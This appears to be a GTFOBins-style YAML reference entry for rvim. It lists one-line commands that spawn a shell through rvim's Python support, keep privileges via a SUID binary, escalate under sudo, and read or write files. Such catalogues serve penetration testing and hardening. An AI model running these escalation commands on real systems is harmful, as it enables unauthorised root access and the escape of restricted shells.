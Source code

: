 ```yaml
---
functions:
  shell:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  file-write:
    - description: This requires that rvim is compiled with Python support. Prepend `:py3` for Python 3.
      code: |
        rvim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: rvim file_to_read
  suid:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./rvim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
---
```

